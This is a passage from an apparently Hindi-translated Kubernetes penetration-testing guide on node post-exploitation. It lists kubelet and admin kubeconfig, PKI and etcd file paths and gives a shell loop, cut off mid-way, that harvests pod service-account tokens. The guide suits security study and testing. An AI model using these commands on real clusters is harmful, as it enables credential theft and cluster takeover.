 This can be done with a tool such as [**stress-ng**](https://zoomadmin.com/HowToInstall/UbuntuPackage/stress-ng):
```
stress-ng --vm 2 --vm-bytes 2G --timeout 30s
```
आप `stress-ng` चलाते समय और उसके बाद के बीच का अंतर देख सकते हैं
```bash
kubectl --namespace big-monolith top pod hunger-check-deployment-xxxxxxxxxx-xxxxx
```
## Node Post-Exploitation

यदि आप **escape from the container** करने में सफल रहे हैं, तो node में आपको कुछ दिलचस्प चीज़ें मिलेंगी:

- यह **Container Runtime** process (Docker)
- node में और भी चल रहे **pods/containers** हैं जिन्हें आप इस तरह दुरुपयोग कर सकते हैं (more tokens)
- पूरी **filesystem** और सामान्यतः **OS**
- **Kube-Proxy** service सुन रही है
- **Kubelet** service सुन रही है। config files जांचें:
- Directory: `/var/lib/kubelet/`
- `/var/lib/kubelet/kubeconfig`
- `/var/lib/kubelet/kubelet.conf`
- `/var/lib/kubelet/config.yaml`
- `/var/lib/kubelet/kubeadm-flags.env`
- `/etc/kubernetes/kubelet-kubeconfig`
- `/etc/kubernetes/admin.conf` --> `kubectl --kubeconfig /etc/kubernetes/admin.conf get all -n kube-system`
- अन्य **kubernetes common files**:
- `$HOME/.kube/config` - **उपयोगकर्ता कॉन्फ़िग**
- `/etc/kubernetes/kubelet.conf`- **नियमित कॉन्फ़िग**
- `/etc/kubernetes/bootstrap-kubelet.conf` - **Bootstrap कॉन्फ़िग**
- `/etc/kubernetes/manifests/etcd.yaml` - **etcd कॉन्फ़िगरेशन**
- `/etc/kubernetes/pki` - **Kubernetes कुंजी**

### Find node kubeconfig

यदि आप पहले बताए गए पाथ्स में kubeconfig फ़ाइल नहीं ढूँढ पा रहे हैं, तो **kubelet प्रोसेस के `--kubeconfig` argument की जाँच करें**:
```
ps -ef | grep kubelet
root        1406       1  9 11:55 ?        00:34:57 kubelet --cloud-provider=aws --cni-bin-dir=/opt/cni/bin --cni-conf-dir=/etc/cni/net.d --config=/etc/kubernetes/kubelet-conf.json --exit-on-lock-contention --kubeconfig=/etc/kubernetes/kubelet-kubeconfig --lock-file=/var/run/lock/kubelet.lock --network-plugin=cni --container-runtime docker --node-labels=node.kubernetes.io/role=k8sworker --volume-plugin-dir=/var/lib/kubelet/volumeplugin --node-ip 10.1.1.1 --hostname-override ip-1-1-1-1.eu-west-2.compute.internal
```
### गुप्त जानकारी चुराना
```bash
# Check Kubelet privileges
kubectl --kubeconfig /var/lib/kubelet/kubeconfig auth can-i create pod -n kube-system

# Steal the tokens from the pods running in the node
# The most interesting one is probably the one of kube-system
ALREADY="IinItialVaaluE"
for i in $(mount | sed -n '/secret/ s/^tmpfs on \(.*default.*\) type tmpfs.*$/\1\/namespace/p'); do
TOKEN=$(cat $(echo $i | sed 's/.namespace$/\/token/'))
if ! [ $(echo $TOKEN | grep -E $ALREADY) ]; then
ALREADY="$ALREADY|$TOKEN"
echo "Directory: $i"
echo "Namespace: $(cat $i)"
echo ""
echo $TOKEN
```